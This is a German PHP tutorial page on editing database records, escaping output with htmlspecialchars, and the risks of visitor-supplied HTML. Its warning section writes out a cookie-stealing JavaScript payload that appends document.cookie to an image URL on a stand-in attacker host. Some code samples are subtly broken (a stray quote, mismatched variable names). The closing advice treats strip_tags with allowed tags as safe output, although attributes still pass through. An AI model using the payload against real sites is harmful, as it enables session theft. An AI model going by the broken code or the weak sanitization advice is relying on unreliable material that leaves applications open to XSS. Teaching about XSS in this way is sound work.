```yaml
---
title: Daten Bearbeiten
order: 40
---
```


<script>document.location="/php-db-schreiben/daten-editieren/";</script>

Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur
Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Formular zum Bearbeiten einer Person](/images/person_edit.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement,
da die ID aus dem GET-Parameter gelesen wurde:

<php caption="laden des Datensatzes, der editiert werden soll">
$sth = $dbh->prepare( "SELECT * FROM users WHERE id=?" );
$sth->execute( array( $id ) );
$person = $sth->fetch();
</php>

### Das Bearbeitungs-Formular

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als
Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute
und bei Textareas als Inhalt des Tags:

<htmlcode>
<input name="firstname" value="Tobias">
<textarea name="description" rows="7">Webdesigner</textarea>
</htmlcode>

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder
Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein
Beispiel in MySQL:

<sql>
MariaDB [portfolio_playground]> select firstname,description from users where id=438;
+--------------------+--------------------------------+
| firstname          | description                    |
+--------------------+--------------------------------+
| Tobias "der Coder" | Mein Lieblings-Tag ist <style> |
+--------------------+--------------------------------+
1 row in set (0.00 sec)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
<input name="firstname" value="Tobias "the Coder"">
<textarea name="description" rows="7">Mein Lieblings-Tag ist <style></textarea>
</htmlcode>

Das Attribut `value` endet zu früh, und der `<style>` Tag lässt
den Rest der Webseite verschwinden.

§

Richtig ist die Darstellung gewisser Zeichen als HTML Entities:

<htmlcode>
<input name="firstname" value="Tobias &quot;the coder&quot;">
<textarea name="description" rows="7">Mein Lieblings-Tag ist &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion
`htmlspecialchars`[&rarr;](http://www.php.net/manual/en/function.htmlspecialchars.php) vorgenommen:

<php>
htmlspecialchars( $person->firstname );
</php>
§

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php caption="Darstellung eines Eingabe-Felds des Edit-Formulars mit PHP">
<input name="firstname" value="<?php echo htmlspecialchars( $person->firstname ) ?>">
<textarea name="description" rows="7"><?php echo htmlspecialchars( $person->description ) ?></textarea>
</php>

### Verarbeitung des POST-Request

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php caption="Update der Daten von PHP aus">
$sth = $dbh->prepare(
  "UPDATE users SET
    firstname=?,surname=?,email=?,
    profile_visible=?,description=? 
   WHERE id=?");

$update_went_ok = $sth->execute(
  array(
    $_POST['firstname'],
    $_POST['surname'],
    $_POST['email'],
    $_POST['profile_visible'],
    $_POST['description'],
    $_POST['id']
  )
);

header("Location: person.php?id=" . $_POST['id']);
exit;
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank durchführen müssen. Wir haben bisher einfach die Daten direkt mit echo ausgegeben:

<php caption="Ausgabe von Daten aus der Datenbank ohne html-escaping">
<?php echo $person->firstname ?>
<?php echo $person->surname ?>
hat insgesamt  <?php echo $no ?> Werke in dieser Datenbank.
// problematisch!
</php>

§

Wenn hier in der Description „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = htmlspecialchars( $person->description' );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/html-escaped1.png)

 Darstellen von HTML
---------------------
Im letzten Beispielen wurde der eingegebene HTML-Tag sichtbar auf der Webseite
angezeigt. Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags
wieder anzeigen?

### Gefahren
Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist
gefährlich! Dazu zwei Beispiele: Sie bauen ein Gästebuch in dem BesucherInnen
beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Ihrem Webserver geladen, sondern vom Webserver von
Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes
aufgerufen. D.h. Herr Lauscher kann sehr bequem mit-loggen wie viele Zugriffe
auf das Gästebuch erfolgen. Falls Herr Lauscher die Gästebuch-Besucher schon
kennt (schon ein Cookie in Ihrem Browser gesetzt hat) kann er sie auch
identifizieren.

Sie haben Herrn Lauscher also die Möglichkeit gegeben sehr viel über Ihre
BesucherInne zu erfahren. So etwas ähnliches passiert z.B. wenn Sie Google
Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen:
Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele
BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer
vorhergehenden Suche noch ein Cookie haben.)

§

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas JavaScript ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmloses bild" id="hack_tool" />
<script>
   document.getElementById("hack_tool").src += "?keks=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile JavaScript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn Ihres Gästebuchs entwenden. Sie
kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Lassen Sie niemals, niemals, niemals zu, dass Fremde JavaScript in Ihre Site einspeisen können!

§

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code
z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und
„wirkt nicht“:

![Eingegebener HTML+JavaScript-Code wird escaped und dargestellt](/images/html-escaped.png)

### Eingabe von HTML

Die Eingabe des HTML-Codes können Sie mit einem JavaScript-Editor wie TinyMCE
erleichtern. TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/tinymce.png)

Mit HTML5 gibt es auch die Möglichkeit ohne Textfeld, mit content-editable einen
Editor zu erstellen. Ein Beispiel dafür ist der Aloha Editor:

![Aloha Editor](/images/aloha.png)

### Behandlugn von eingegebenem HTML

Für die Beispiel-Applikation wollen wir Zulassen, dass im Profil die HTML-Tags
`<p>` und `<b>` verwendet werden können, mehr nicht. Dass es nur diese
Tags und keine anderen sind wird bei der Eingabe und der Bearbeitung sicher
gestellt:

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

Nun können Sie auch die Ausgabe des Profils umstellen und auf das escapen 
der `description` verzichten:

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = strip_tags( $person->description,  "<p><b>" );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

